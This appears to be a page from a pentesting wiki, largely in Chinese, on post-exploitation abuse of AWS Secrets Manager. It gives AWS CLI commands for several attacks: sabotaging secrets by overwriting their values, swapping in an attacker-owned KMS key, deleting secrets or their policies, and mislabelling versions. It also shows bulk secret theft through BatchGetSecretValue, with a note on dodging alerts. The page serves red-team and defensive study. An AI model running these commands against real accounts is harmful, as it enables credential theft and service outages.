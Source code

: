 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

更多信息请参阅：

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### 读取 Secrets

**secrets 本身是敏感信息**，[查看 privesc 页面](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) 了解如何读取它们。

### DoS 更改 Secret 值

更改 secret 的值可能会**对所有依赖该值的系统造成 DoS。**

> [!WARNING]
> 请注意，之前的值也会被存储，因此很容易恢复到之前的值。
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS 更改 KMS key

如果攻击者拥有 secretsmanager:UpdateSecret 权限，他们可以将 secret 配置为使用由攻击者拥有的 KMS key。该 key 最初被设置为任何人都可以访问和使用，因此可以使用新 key 更新 secret。如果该 key 无法访问，就无法更新 secret。

在为 secret 更改 key 之后，攻击者修改其 key 的配置，使只有他们自己可以访问。这样，在 secret 的后续版本中，内容会用新 key 加密，由于无法访问该 key，检索 secret 的能力将丧失。

需要注意的是，这种不可访问性只会出现在后续版本（即 secret 内容发生变化之后），因为当前版本仍然使用原始 KMS key 加密。
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

删除 secret 的最小等待天数为 7 天
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

可以恢复 secret，这允许恢复已被标记为删除的 secrets，因为 secrets 的最短删除期为 7 天，最长为 30 天。结合 secretsmanager:GetSecretValue 权限，这就可以检索它们的内容。

要恢复处于删除过程中的 secret，可以使用以下命令：
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

此操作允许删除控制谁可以访问 secret 的 resource policy。这可能导致 DoS，如果该 resource policy 被配置为仅允许特定一组用户访问。

要删除 resource policy:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

secret 的状态用于管理其版本。AWSCURRENT 标记应用程序使用的活动版本，AWSPREVIOUS 保留前一个版本以便在必要时回滚，AWSPENDING 在轮换过程中用于准备并验证新版本，然后再将其设为当前版本。

应用程序始终读取带有 AWSCURRENT 的版本。如果有人把该标签移动到错误的版本，应用将使用无效凭证并可能失败。

AWSPREVIOUS 不会被自动使用。然而，如果 AWSCURRENT 被移除或错误地重新分配，可能看起来一切仍在使用之前的版本运行。
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
### Mass Secret Exfiltration via BatchGetSecretValue（每次最多 20 个）

滥用 Secrets Manager 的 BatchGetSecretValue API 在单个请求中检索最多 20 个 secrets。与对每个 secret 逐一调用 GetSecretValue 相比，这可以显著减少 API 调用量。如果使用 filters（tags/name），还需要 ListSecrets 权限。CloudTrail 仍会为批量中检索的每个 secret 记录一条 GetSecretValue 事件。

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue（针对每个目标 secret）
- secretsmanager:ListSecrets（如果使用 --filters）
- kms:Decrypt（对 secrets 使用的 CMKs；若使用 aws/secretsmanager 则不需要）

> [!WARNING]
> 请注意，权限 `secretsmanager:BatchGetSecretValue` 本身不足以检索 secrets，你还需要对每个要检索的 secret 拥有 `secretsmanager:GetSecretValue` 权限。

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
通过过滤器（tag key/value 或 name prefix）进行外传
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
处理部分失败
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
影响
- 使用更少的 API 调用快速对大量 secret 进行 “smash-and-grab”，可能绕过针对 GetSecretValue 突增而调整的告警。
- CloudTrail 日志仍会包含批量检索的每个 secret 的一个 GetSecretValue 事件。
{{#include ../../../../banners/hacktricks-training.md}}
